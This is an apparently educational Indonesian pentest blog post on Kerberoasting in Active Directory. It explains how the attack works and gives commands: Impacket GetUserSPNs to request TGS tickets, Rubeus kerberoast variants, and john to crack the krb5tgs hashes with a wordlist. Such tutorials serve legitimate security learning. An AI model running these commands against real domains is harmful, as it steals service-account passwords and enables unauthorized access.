


Kerberoasting adalah salah satu serangan pada protokol Kerberos, dalam serangan ini target utamanya yaitu user dari akun layanan (Service Account). Namun serangan ini memerlukan setidaknya satu Domain User yang sudah ter-compromise. Ketika salah satu Domain User itu Compromised dan digunakan oleh penyerang, maka penyerang memiliki peluang untuk mengambil alih Service Account dari protokol Kerberos.



Mungkin akan saya jelaskan ulang pada artikel ini, pada dasarnya protokol Kerberos di lingkungan Active Directory, terdapat dua layanan utama:
1. Authentication Service (AS) 
2. Ticket-Granting Service (TGS)

Secara garis besar, alur Kerberoasting mirip seperti [AS-REP Roasting](/windows-infrastructure-pentest/2024-01-05-as-rep-roasting-kerberos-active-directory/) namun pada dasarnya agak berbeda, karena AS-REP Roasting memanfaatkan layanan Authentication Service (AS) pada Kerberos, sedangkan Kerberoasting memanfaatkan layanan Ticket Granting Service (TGS). Ok! Agar tidak terlalu bertele-tele, maka saya akan rangkum alur terkait Kerberoasting Attack.

Melalui Domain User yang sudah ter-compromise, penyerang akan menargetkan akun layanan (Service Account):
- Penyerang akan mengambil Ticket ke layanan Ticket Granting Service (TGS) di dalam Kerberos menggunakan Service Principal Name (SPN) yang digunakan oleh Service Account tersebut
- Di dalam Ticket pada dasarnya menyimpan kredensial milik Service Account, namun disembunyikan dalam format Hash
- Setelah Ticket diperoleh, penyerang akan memecahkan Hash tersebut secara **Offline** menggunakan Tools Password Cracking untuk mendapatkan Plain-text Password dari  Service Account yang sebelumnya dijadikan sasaran
- Setelah Password didapatkan, maka penyerang dapat login menggunakan Service Account tersebut

Oh, iya! Pada dasarnya, Service Account dan Domain User itu sama-sama digunakan untuk otentikasi di lingkungan jaringan Windows. Perbedaannya hanya terletak pada tujuan dan penggunaannya saja. Service Account umumnya digunakan oleh layanan seperti MSSQL, HTTP (IIS), dan lain-lain, sedangkan Domain User digunakan oleh pengguna manusia.

<h1 class="header-group">Proof of Concept</h1>
# 1. Request Ticket to TGS
Untuk melakukan permintaan Ticket pada Service TGS di Kerberos, di sini saya akan menggunakan Tool `Impacket` (lagi).

**Installation**
Linux (Debian Based):
```
sudo apt install pipx -y
sudo python3 -m pipx install impacket
```

Kali Linux:
```
sudo apt install impacket-scripts -y
```

Atau kalian juga bisa menyesuaikan instalasinya dengan cara mengunjungi Repository <https://github.com/fortra/impacket>.

Jika sudah terinstal, kita bisa menggunakan modul `impacket-GetUserSPNs.py` dari `Impacket` untuk mengambil Ticket dari layanan TGS-nya.

**Command**
```
impacket-GetUserSPNs <domain>/<username>:<password> -request -dc-ip <ip domain controller>
```


## What If
Jika mengalami Error **Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)** maka kita hanya perlu untuk sinkronisasi waktu dan tanggal pada Host yang kita gunakan dengan Server Active Directory.

**Get AD Timestamp via LDAP**
```
ldapsearch -LLL -x -H ldap://<ip domain controller> -b '' -s base '(objectclass=*)' | grep currentTime
```

**Synchronize the Timezone**
```
sudo timedatectl set-ntp false
sudo timedatectl set-time "<YYYY-MM-DD HH:MM:SS>"
```

## Alternative Tool
Selain menggunakan `Impacket`, kalian juga bisa menggunakan tool `Rubeus.exe` sebagai alternatif bilamana environment yang kalian gunakan untuk Pentest itu berbasis Windows.

Download `Rubeus.exe`:
- <https://github.com/GhostPack/Rubeus>

**Commands**
```
.\Rubeus kerberoast
```

Alternative command #1:
```
.\Rubeus.exe kerberoast /ou:OU=Service_Accounts,DC=Security,DC=local
```

Alternative command #2:
```
.\Rubeus.exe kerberoast /user:File_SVC
```

# 2. Crack the Ticket (Roasting!)

Jika Ticket yang diberikan oleh TGS berhasil diperoleh, kita lanjutkan ke tahap Roasting. Istilah Roasting di sini mengacu pada aktivitas pemecahan Hash di dalam Ticket-nya menggunakan Password Cracking Tool seperti `john` atau `hashcat`. Oh iya untuk file Password List-nya itu saya menggunakan `rockyou.txt` (sama seperti biasa).

**Command**
```
john --format=krb5tgs --wordlist=<password file> <tgs file>
```



